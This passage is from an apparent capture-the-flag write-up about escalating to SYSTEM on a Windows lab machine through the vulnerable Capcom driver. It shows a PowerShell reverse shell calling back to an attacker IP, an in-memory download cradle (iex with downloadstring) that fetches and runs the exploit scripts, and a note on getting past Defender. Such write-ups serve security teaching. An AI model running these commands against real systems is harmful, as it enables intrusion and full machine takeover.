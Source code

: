 Basic enumeration of this user indicates that `decoder` has no special privileges over the machine. I couldn't run lots of scripts because AppLocker or Defender was present on the machine:

```
PS C:\Windows\Tasks> .\winpeas.exe
PS C:\Windows\Tasks> Invoke-PowerShellTcp : Program 'winpeas.exe' failed to run: Operation did not 
complete successfully because the file contains a virus or potentially 
unwanted softwareAt line:1 char:1
+ .\winpeas.exe
+ ~~~~~~~~~~~~~.
At line:128 char:1
+ Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.11 -Port 443
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp
```

Based on the theme of the machine, I enumerated exploits related to Street Fighter and surprisingly, found an ExploitDB link:

{% embed url="https://www.exploit-db.com/exploits/40451" %}

Capcom driver is well-known for granting SYSTEM shells, so let's take a look at that. There are loads of PoCs available. I used this one:

{% embed url="https://github.com/FuzzySecurity/Capcom-Rootkit" %}

The above was the best because it was based on Powershell instead of `.exe` files, which I could not seem to execute anyway. I struggled a bit here in uploading them onto the machine, but eventually resorted to using 0xdf's writeup to combine all of them (which is really smart):

```bash
find . -name "*.ps1" -exec cat {} \; -exec echo \; > capcom-all
```

Then, we can use the Powershell download cradle method to import it in memory:

```powershell
iex(new-object net.webclient).downloadstring('http://10.10.14.11:443/capcom-all')
```

Then, run the exploit:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
